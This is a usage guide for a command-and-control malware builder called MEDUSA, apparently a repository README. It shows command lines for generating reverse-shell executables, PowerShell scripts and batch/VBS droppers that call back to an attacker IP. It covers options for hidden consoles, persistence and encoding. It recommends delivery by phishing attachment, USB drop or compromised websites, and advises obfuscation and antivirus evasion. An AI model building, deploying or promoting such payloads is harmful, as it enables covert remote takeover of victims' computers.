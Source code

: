 # MEDUSA C2 Framework - Builder Guide

## Overview

The MEDUSA Builder generates custom payloads and executables for deployment.

## Payload Types

| Type | Description | File Extension |
|------|-------------|----------------|
| Python | Full-featured client with EXE compilation | .py, .exe |
| Netcat | Lightweight reverse shell commands | N/A |
| PowerShell | Windows PowerShell-based payload | .ps1 |
| Batch | Windows batch file dropper | .bat |
| VBS | VBScript dropper | .vbs |

## Web Interface Builder

### Payload Types

1. **Python Executable**: Full-featured client with EXE compilation
2. **Netcat Reverse Shell**: Lightweight shell commands
3. **PowerShell Script**: Windows PowerShell-based payload
4. **Batch Dropper**: Windows batch file dropper
5. **VBS Dropper**: VBScript dropper

### Payload Modes (Python Executable)

| Mode | Description | Use Case |
|------|-------------|----------|
| Silent | ✅ Completely hidden operation<br>✅ No console window<br>✅ Background execution | Red team exercises, stealth testing |
| Stealth | ✅ Enhanced hiding features<br>✅ Process priority management<br>✅ Advanced evasion | Advanced penetration testing |
| Basic | ✅ Standard executable<br>✅ Visible console (debugging)<br>✅ Simple deployment | Development, debugging |

## Command Line Builder

### Installation

```bash
# Install PyInstaller for EXE building
pip install pyinstaller

# Optional: Install UPX for compression
# Download from https://upx.github.io/
```

### Usage Examples

```bash
# Generate Python client with EXE
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient --build-exe --hide-console

# Generate with persistence
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient --build-exe --hide-console --persistence

# Generate PowerShell payload
python builder.py --type powershell --ip 192.168.1.100 --port 4444 --output psrevshell

# Generate encoded PowerShell
python builder.py --type powershell --ip 192.168.1.100 --port 4444 --output psrevshell --encode

# Generate Netcat commands
python builder.py --type netcat --ip 192.168.1.100 --port 4444

# Generate Batch dropper
python builder.py --type batch --ip 192.168.1.100 --port 4444 --output dropper

# Generate VBS dropper
python builder.py --type vbs --ip 192.168.1.100 --port 4444 --output dropper

# Test all builder functions
python builder.py --test
```

### Command Line Options

#### Required Arguments

| Option | Description |
|--------|-------------|
| `--type {python,netcat,powershell,batch,vbs}` | Payload type |
| `--ip IP_ADDRESS` | Server IP address |
| `--port PORT` | Server port number |

#### Optional Arguments

| Option | Description |
|--------|-------------|
| `--output NAME` | Output filename (default: client) |
| `--build-exe` | Build executable with PyInstaller |
| `--hide-console` | Hide console window |
| `--persistence` | Add persistence mechanisms |
| `--encode` | Base64 encode payload (PowerShell) |
| `--icon ICON_FILE` | Icon file for executable |
| `--test` | Test all builder functions |

## Generated Files

### File Structure

```
nova/payloads/
├── client.py              # Python source code
├── client.exe             # Compiled executable
├── psrevshell.ps1         # PowerShell script
├── dropper.bat            # Batch dropper
├── dropper.vbs            # VBS dropper
└── payload_info_*.json    # Generation metadata
```

## Deployment Methods

1. **Direct Execution**: Copy and run executable
2. **Email Attachment**: Social engineering vector
3. **USB Drop**: Physical deployment
4. **Web Download**: Host on compromised website
5. **Script Execution**: PowerShell/batch scripts
6. **Dropper Files**: Batch/VBS droppers for stealth deployment

## Builder Menu (Windows)

The `builder_menu.bat` script provides a quick launcher for Windows with the following options:

1. Generate Python Client (with EXE)
2. Generate Netcat Commands
3. Generate PowerShell Script
4. Generate Batch Dropper
5. Generate VBS Dropper
6. Test Builder (all functions)
7. Help / Usage Guide

## Security Considerations

- Always use encrypted connections in production
- Test payloads in isolated environments
- Obfuscate payloads to avoid detection
- Use stealth modes for evasion
- Implement proper error handling

## Troubleshooting

### Common Issues

1. **PyInstaller not found**: Install with `pip install pyinstaller`
2. **Permission denied**: Run as administrator on Windows
3. **Antivirus interference**: Temporarily disable or use evasion techniques
4. **Network connectivity**: Verify IP and port configuration
5. **Python dependencies**: Ensure all requirements are installed

### Debug Mode

Enable debug logging for detailed information:

```bash
# Server debug mode
python server.py --debug

# Client debug mode
# Edit client.py and add:
import logging
logging.basicConfig(level=logging.DEBUG)
```
